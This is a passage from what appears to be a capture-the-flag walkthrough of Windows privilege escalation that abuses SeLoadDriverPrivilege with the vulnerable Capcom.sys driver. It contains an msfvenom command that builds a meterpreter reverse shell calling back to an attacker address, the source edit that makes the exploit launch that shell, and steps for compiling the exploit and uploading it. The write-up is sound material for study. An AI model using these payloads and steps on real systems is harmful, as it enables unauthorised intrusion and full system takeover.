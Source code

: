 It looks like we're in the Print Operators group, as we have the SeLoadDriverPrivilege privilege, so we can escalate!

We'll use a couple of exploits for this:

Explanation of vulnerability:

https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege

Capcom.sys:

https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54

Driver Loader:

https://github.com/TarlogicSecurity/EoPLoadDriver

Capcom SYSTEM Priv-esc Exploit:

https://github.com/tandasat/ExploitCapcom

We'll need to fire up a Windows VM with Visual Studio to compile these correctly.

Before we compile the exploit, we need to create a reverse shell with msfvenom that we can tell the exploit to call:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1234 -f exe > shell.exe
```

Now, we need to edit ExploitCapcom.cpp slightly, and change the TCHAR CommandLine[] in the function LaunchShell() to the following:

```
TCHAR CommandLine[] = TEXT("C:\\.tmp\\shell.exe");
```

## Compiling our Exploit

In a nutshell, we can load the ExploitCapcom .sln file into Visual Studio, and compile it first by clicking Build -> Build Solution. We'll grab the .exe it creates and move it to our attacking machine. Then, we'll remove ExploitCapcom.cpp from the Source Files in the right pane, and add our eoploaddriver.cpp file to the Source Files. We'll now build the solution again, and grab our new .exe file. 

Note: Visual Studio was looking for a stdafx.h file to pull in, and the header file for ExploitCapcom was sufficient to also build our eoploaddriver exploit.

Once we have all of the files, we can upload then to the box with evil-winrm.

**Checklist:**

*Capcom.sys*
*ExploitCapcom.exe*
*eoploaddriver.exe*
*shell.exe*

## Getting SYSTEM
